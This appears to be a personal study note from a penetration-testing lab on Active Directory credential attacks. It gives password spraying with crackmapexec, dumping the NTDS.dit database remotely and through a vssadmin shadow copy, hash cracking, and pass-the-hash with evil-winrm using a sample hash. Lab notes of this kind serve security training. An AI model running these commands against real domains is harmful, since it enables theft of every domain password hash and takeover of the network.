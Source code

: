 
Can generate a list of usernames with [[Username Anarchy]] first 

```
crackmapexec smb 10.129.201.57 -u username/username-file.txt -p /usr/share/wordlists/fasttrack.txt
```

Account lock out is not a default group policies that apply to a Windows domain so it may still work. 

# NTDS.dit
NT Directory Services - directory services used with AD to find & organise network resources 

stored in `%systemroot%/ntds`

`.dit` -> directory information tree -> primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information 
# Getting NTDS with crackmapexec 
```
crackmapexec smb 10.129.201.57 -u username -p password --ntds
```


# Getting NTDS manually
Connecting to the AD's DC with evil-winRM 
```
evil-winrm -i 10.129.201.57 -u username -p 'P@55w0rd!'
```

permissions 
```
net localgroup
net user username
```
to make a copy of NTDS.dit file -> user needs both administrator + domain administrator rights

```
vssadmin CREATE SHADOW /For=C;
```

```
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Transfer the same way as [[SAM]] by setting up a [[SMB Server]] 

Crack the hashes using [[hashcat]]

# Pass the hash
we can also try to authenticate with the hash
```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```